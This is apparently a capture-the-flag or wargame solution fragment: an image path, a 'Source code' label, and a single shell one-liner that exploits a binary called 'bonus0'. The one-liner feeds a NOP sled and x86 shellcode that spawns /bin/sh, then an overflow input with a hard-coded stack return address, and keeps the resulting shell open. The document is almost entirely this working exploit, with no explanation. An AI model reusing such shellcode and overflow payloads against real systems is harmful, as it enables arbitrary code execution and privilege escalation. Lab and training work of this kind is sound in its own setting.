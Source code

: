 (python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' ; python -c 'print "A" * 9 + "\xbf\xff\xe6\xc0"[::-1] + "B" * 7'; cat -) | ./bonus0